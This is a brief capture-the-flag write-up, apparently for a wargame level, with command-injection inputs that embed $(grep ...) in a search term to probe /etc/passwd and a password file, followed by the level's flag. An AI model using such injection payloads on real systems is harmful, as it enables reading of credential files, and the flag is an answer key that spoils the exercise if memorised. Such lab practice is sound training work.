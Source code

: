 # Trick

Exist `a` on /etc/passwd
```
Africans$(grep a /etc/passwd)
```

Not exist `!` on /etc/passwd

```
Africans$(grep ! /etc/passwd)
```

Exploit trick:
```
Africans$(grep a /etc/natas_webpass/natas17)
```

# Flag

```
XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd
```